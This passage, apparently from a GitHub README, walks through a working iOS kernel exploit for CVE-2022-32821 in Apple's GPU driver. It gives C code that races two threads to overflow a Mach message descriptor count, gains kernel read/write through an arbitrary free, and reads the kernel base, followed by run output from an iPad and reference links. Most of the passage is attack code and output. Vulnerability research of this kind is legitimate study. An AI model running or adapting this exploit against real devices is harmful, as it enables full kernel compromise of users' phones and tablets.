    // STEP 6: Overflowing to make mach_msg_ool_ports_descriptor_t's count = 0x7F8;
    printf("Overflowing mach_msg_ool_ports_descriptor_t's count to make 0x7f8...\n");
    x8 = (KHEAP_DATA_MAPPABLE_LOC+0x30);  // x8 will be Pointed here.  //com.apple.AGXG9P:__text:FFFFFFF005DC508C     LDR X0, [X8,#0x10]
    memset_pattern8(pipe_buffer, &x8, pipe_buffer_size);
    for(int i = 0; i < pipe_count; i++) {
        read(pipefds[2 * i], recv_buf, pipe_buffer_size);
        write(pipefds[2 * i + 1], pipe_buffer, pipe_buffer_size-1);
    }
    
    uint32_t cpp_obj_ptr_32 = CPP_OBJ_PTR & 0xFFFFFFFF;
    uint64_t make_overflow_count = 0xFFFFFFFF - cpp_obj_ptr_32 + 1;
    printf("make_overflow_count = 0x%llx\n", make_overflow_count);
    uint64_t iter = make_overflow_count + 0x7F8;
    
    pthread_t pt1;
    pthread_t pt2;
    pthread_attr_t pattr;
    pthread_attr_init(&pattr);
    pthread_attr_set_qos_class_np(&pattr, QOS_CLASS_USER_INITIATED, 0);

    thread_args_t *args1 = (thread_args_t *)malloc(sizeof(thread_args_t));
    thread_args_t *args2 = (thread_args_t *)malloc(sizeof(thread_args_t));
    args1->iter_count = (iter / 2);
    args1->uc = uc;
    args2->iter_count = (iter - (iter / 2));
    args2->uc = uc;

    pthread_create(&pt1, &pattr, (void *(*)(void *))trigger_vuln, (void *)args1);
    pthread_create(&pt2, &pattr, (void *(*)(void *))trigger_vuln2, (void *)args2);
    pthread_join(pt1, NULL);
    pthread_join(pt2, NULL);
    free(args1);
    free(args2);
    pthread_attr_destroy(&pattr);
    printf("Made mach_msg_ool_ports_descriptor_t's count to 0x7F8\n");
    ...
}

typedef struct {
    uint64_t iter_count;
    io_connect_t uc;
} thread_args_t;

void *trigger_vuln(void *arg) {
    thread_args_t *args = (thread_args_t *)arg;
    uint64_t iter = args->iter_count;
    io_connect_t uc = args->uc;

    for(uint64_t i = 0; i < iter; i++) {
        uint64_t remaining = iter - i;
        if (remaining % 1000000 == 0) {
            printf("[Thread 1 Remaining]: %llu\n", remaining);
        }

        IOGPU_create_mtllateeventevent(uc);
    }
    
    return NULL;
}

void *trigger_vuln2(void *arg) {
    thread_args_t *args = (thread_args_t *)arg;
    uint64_t iter = args->iter_count;
    io_connect_t uc = args->uc;

    for(uint64_t i = 0; i < iter; i++) {
        uint64_t remaining = iter - i;
        if (remaining % 1000000 == 0) {
            printf("[Thread 2 Remaining]: %llu\n", remaining);
        }

        IOGPU_create_mtllateeventevent(uc);
    }
    
    return NULL;
}
```

- Running result

```c
...
[Thread 1 Remaining]: 2000000
[Thread 2 Remaining]: 2000000
[Thread 1 Remaining]: 1000000
[Thread 2 Remaining]: 1000000
Made mach_msg_ool_ports_descriptor_t's count to 0x7F8
```

This can be visualized as follows.

Increment primitive now targets `count` of `mach_msg_ool_ports_descriptor_t`.



## 7. `exploitation_get_krw_with_arb_free`

- Description skipped
- [https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#3-exploitation_get_krw_with_arb_free](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#3-exploitation_get_krw_with_arb_free)

```cpp
int exploit(void) {
    ...
    // STEP 7: generic exploitation using arbitrary free
    uint64_t kernel_base = 0;
    exploitation_get_krw_with_arb_free(arb_free_holder, &kernel_base);
    
    // STEP 8: test kernel r/w, read kernel base
    uint32_t mh_magic = kread32(kernel_base);
    if (mh_magic != 0xFEEDFACF)
    {
        printf("mh_magic != 0xFEEDFACF: %08X\n", mh_magic);
        return 1;
    }
    printf("kread32(kernel_base) success: %08X\n", mh_magic);
    ...
}
```

## 8. `exploitation_cleanup`

- Description skipped
- [https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#4-exploitation_cleanup](https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2021-30937/README.md#4-exploitation_cleanup)

```cpp
int exploit(void) {
    ...
    // STEP 9: cleanup
    // generic exploitation cleanup (kernel r/w still active)
    exploitation_cleanup();
    
    return 0;
}
```

# Running result

```c
ssh root@127.0.0.1 -p22224
(root@127.0.0.1) Password for root@iPad7-150:
iPad7-150:~ root# CVE-2022-32821 
tfp0 ret: 0x0 ((os/kern) successful)
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xfffffff01fc632c0
tfp0 = 0x903
gKernelBase = 0xfffffff021ab0000, gKernelSlide = 0x1aaac000
cpp_obj_ptr = 0xffffffe0fa720690
make_overflow_count = 0x58df970
kheap_data_idx: 00000A92
Survived, Determined which kmsg has been corrupted!
Increased mach_msg_body_t's msgh_descriptor_count to 1
Overflowing mach_msg_ool_ports_descriptor_t's count to make 0x7f8...
Remaining iterations: 93000000
Remaining iterations: 92000000
Remaining iterations: 91000000
Remaining iterations: 90000000
Remaining iterations: 89000000
Remaining iterations: 88000000
Remaining iterations: 87000000
Remaining iterations: 86000000
Remaining iterations: 85000000
Remaining iterations: 84000000
Remaining iterations: 83000000
Remaining iterations: 82000000
Remaining iterations: 81000000
Remaining iterations: 80000000
Remaining iterations: 79000000
Remaining iterations: 78000000
Remaining iterations: 77000000
Remaining iterations: 76000000
Remaining iterations: 75000000
Remaining iterations: 74000000
Remaining iterations: 73000000
Remaining iterations: 72000000
Remaining iterations: 71000000
Remaining iterations: 70000000
Remaining iterations: 69000000
Remaining iterations: 68000000
Remaining iterations: 67000000
Remaining iterations: 66000000
Remaining iterations: 65000000
Remaining iterations: 64000000
Remaining iterations: 63000000
Remaining iterations: 62000000
Remaining iterations: 61000000
Remaining iterations: 60000000
Remaining iterations: 59000000
Remaining iterations: 58000000
Remaining iterations: 57000000
Remaining iterations: 56000000
Remaining iterations: 55000000
Remaining iterations: 54000000
Remaining iterations: 53000000
Remaining iterations: 52000000
Remaining iterations: 51000000
Remaining iterations: 50000000
Remaining iterations: 49000000
Remaining iterations: 48000000
Remaining iterations: 47000000
Remaining iterations: 46000000
Remaining iterations: 45000000
Remaining iterations: 44000000
Remaining iterations: 43000000
Remaining iterations: 42000000
Remaining iterations: 41000000
Remaining iterations: 40000000
Remaining iterations: 39000000
Remaining iterations: 38000000
Remaining iterations: 37000000
Remaining iterations: 36000000
Remaining iterations: 35000000
Remaining iterations: 34000000
Remaining iterations: 33000000
Remaining iterations: 32000000
Remaining iterations: 31000000
Remaining iterations: 30000000
Remaining iterations: 29000000
Remaining iterations: 28000000
Remaining iterations: 27000000
Remaining iterations: 26000000
Remaining iterations: 25000000
Remaining iterations: 24000000
Remaining iterations: 23000000
Remaining iterations: 22000000
Remaining iterations: 21000000
Remaining iterations: 20000000
Remaining iterations: 19000000
Remaining iterations: 18000000
Remaining iterations: 17000000
Remaining iterations: 16000000
Remaining iterations: 15000000
Remaining iterations: 14000000
Remaining iterations: 13000000
Remaining iterations: 12000000
Remaining iterations: 11000000
Remaining iterations: 10000000
Remaining iterations: 9000000
Remaining iterations: 8000000
Remaining iterations: 7000000
Remaining iterations: 6000000
Remaining iterations: 5000000
Remaining iterations: 4000000
Remaining iterations: 3000000
Remaining iterations: 2000000
Remaining iterations: 1000000
Made mach_msg_ool_ports_descriptor_t's count to 0x7F8
kheap_default_idx: 00000BDC
Test kwrite32 and kread32: 0000FEED (should be 0000FEED)
Get kernel base...

Got kernel base: 0xfffffff021ab0000
kread32(kernel_base) success: FEEDFACF

iPad7-150:~ root# 
iPad7-150:~ root# 
```

# Demo Video

[https://www.youtube.com/watch?v=-JZDTxGVFps](https://www.youtube.com/watch?v=-JZDTxGVFps)

# References

[https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf](https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf)

[https://github.com/potmdehex/slides/blob/main/Hexacon_2022_More_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf](https://github.com/potmdehex/slides/blob/main/Hexacon_2022_More_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf)

[https://github.com/potmdehex/multicast_bytecopy](https://github.com/potmdehex/multicast_bytecopy)